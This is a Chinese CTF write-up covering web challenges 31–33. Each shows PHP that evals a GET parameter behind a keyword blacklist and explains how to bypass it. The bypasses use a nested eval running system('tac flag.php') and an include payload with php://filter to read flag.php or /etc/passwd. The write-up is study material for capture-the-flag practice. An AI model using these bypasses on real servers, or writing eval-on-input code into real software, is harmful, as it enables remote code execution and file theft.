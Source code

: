 
# web31

```php
<?php   
  
error_reporting(0);  
if(isset($_GET['c'])){    $c = $_GET['c'];  
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){  
        eval($c);  
    }  
      
}else{    highlight_file(__FILE__);  
}
```

注意，这题也过滤了点，空格，单引号

可以尝试通过嵌套eval函数来获取另一个参数的的方法来绕过，因为这里只判断了c这个参数，并不会判断其他参数的传入
```
?c=eval($_GET[a]);&a=system('tac flag.php');
```

# web32

```php
<?php  
  
error_reporting(0);  
if(isset($_GET['c'])){    $c = $_GET['c'];  
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){  
        eval($c);  
    }  
      
}else{    highlight_file(__FILE__);  
}
```
这题过滤了分号、括号等


这题看WP给我提供了一个新的思路，可以利用文件包含
首先看大佬的的payload：
```
c=include%0a$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
```

- 首先是include+参数1，作用是包含参数1的文件，运用了文件包含漏洞，最后的文件名字可以改为/etc/passwd和nginx的日志文件来定位flag位置
- 然后是%0a作用，这是url回车符，因为空格被过滤。事实上，删去也无所谓，似乎php会自动给字符串和变量间添加空格（经检验，只在eval中有效，echo中无效，还是得要空格）
- 后面的?>的作用是作为绕过分号，作为语句的结束。原理是：php遇到定界符关闭标签会自动在末尾加上一个分号。简单来说，就是php文件中最后一句在?>前可以不写分号。
- 在c中引用了参数1，然后&后对参数1定义，运用文件包含漏洞

![Pasted image 20240912143329.png](/img/user/picture/Pasted%20image%2020240912143329.png)

# web33
```php
<?php  
  
  
error_reporting(0);  
if(isset($_GET['c'])){    $c = $_GET['c'];  
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){  
        eval($c);  
    }  
      
}else{    highlight_file(__FILE__);  
```